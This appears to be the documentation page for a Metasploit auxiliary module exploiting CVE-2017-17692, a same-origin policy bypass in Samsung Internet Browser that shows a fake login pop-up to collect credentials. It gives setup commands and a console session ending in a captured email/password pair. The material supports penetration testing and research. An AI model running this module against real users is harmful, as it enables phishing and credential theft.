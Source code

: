 ## Description
This module takes advantage of a Same-Origin Policy (SOP) bypass vulnerability in the Samsung Internet Browser (CVE-2017-17692), a popular mobile browser shipping with Samsung Android devices. By default, it initiates a redirect to a child tab, and rewrites the innerHTML to gather credentials via a fake pop-up and the gather credentials is stored in `creds`

## Vulnerable Application
This Module was tested on Samsung Internet Browser 5.4.02.3 during development.

## Verification Steps
1. Start `msfconsole -q`
2. `use auxiliary/gather/samsung_browser_sop_bypass`
3. `set SRVHOST`
4. `set SRVPORT`
5. `set URIPATH`
6. `set TARGET_URL`
5. `run`

## Scenarios
```
$ sudo msfconsole -q 
msf > use auxiliary/gather/samsung_browser_sop_bypass 
msf auxiliary(samsung_browser_sop_bypass) > set SRVHOST 192.168.1.104
SRVHOST => 192.168.1.104
msf auxiliary(samsung_browser_sop_bypass) > set SRVPORT 9090
SRVPORT => 9090
msf auxiliary(samsung_browser_sop_bypass) > set URIPATH /
URIPATH => /
msf auxiliary(samsung_browser_sop_bypass) > set TARGET_URL https://www.google.com/csi
TARGET_URL => https://www.google.com/csi
msf auxiliary(samsung_browser_sop_bypass) > run
[*] Auxiliary module execution completed
msf auxiliary(samsung_browser_sop_bypass) > 
[*] Using URL: http://192.168.1.104:9090/
[*] Server started.
[*] 192.168.1.101: Request 'GET /'
[*] 192.168.1.101: Attempting to spoof origin for https://www.google.com/csi
[*] 192.168.1.101: Request 'GET /favicon.ico'
[*] 192.168.1.101: Attempting to spoof origin for https://www.google.com/csi
[*] 192.168.1.101: Request 'GET /favicon.ico'
[*] 192.168.1.101: Attempting to spoof origin for https://www.google.com/csi
[+] 192.168.1.101: Collected credential for 'https://www.google.com/csi' emailID:MyStrongPassword

msf auxiliary(samsung_browser_sop_bypass) > creds 
Credentials
===========

host            origin          service          public          private                                                            realm                       private_type
----            ------          -------          ------          -------                                                            -----                       ------------
                                                 emailID         MyStrongPassword                                                   https://www.google.com/csi  Password

msf auxiliary(samsung_browser_sop_bypass) > 
```

## Demos

Working of MSF Module: `https://youtu.be/ulU98cWVhoI` 

Vulnerable Browser: `https://youtu.be/lpkbogxJXnw`
